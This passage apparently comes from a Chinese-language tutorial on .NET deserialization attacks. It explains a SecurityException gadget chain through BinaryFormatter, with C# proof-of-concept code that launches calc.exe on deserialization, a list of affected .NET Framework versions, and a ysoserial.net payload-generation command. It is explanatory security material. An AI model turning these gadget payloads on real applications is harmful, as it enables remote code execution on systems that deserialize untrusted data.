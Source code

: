 ```csharp
// 恶意对象，getter 中执行命令
[Serializable]
public class EvilObject
{
    public override string ToString()
    {
        System.Diagnostics.Process.Start("calc.exe");
        return null;
    }
}

// 构造 SecurityException，设置 Demanded 为恶意对象
var secEx = new SecurityException();
typeof(SecurityException).GetField("m_demanded", BindingFlags.NonPublic | BindingFlags.Instance)
    .SetValue(secEx, new EvilObject());

// 序列化 secEx
var formatter = new BinaryFormatter();
formatter.Serialize(stream, secEx);

// 反序列化时触发链条
formatter.Deserialize(stream);
```

---

### 18.5 触发点与关键代码

- **SecurityException.Demanded/FirstPermissionThatFailed**  
    反序列化时自动访问，攻击者可控。
- **恶意 getter/ToString**  
    在 getter 或 `ToString` 中执行任意代码。

---

### 18.6 影响范围

- 影响所有使用 `BinaryFormatter`、`NetDataContractSerializer` 反序列化且未做类型限制的 .NET Framework 应用。
- 主要影响 .NET Framework 2.0/3.5/4.x，.NET Core/5/6 默认不包含全部功能。

### 18.7 参考利用链（ysoserial.net）

```bash
ysoserial.exe -g GetterSecurityException -f BinaryFormatter -o base64 -c "calc.exe"
```

---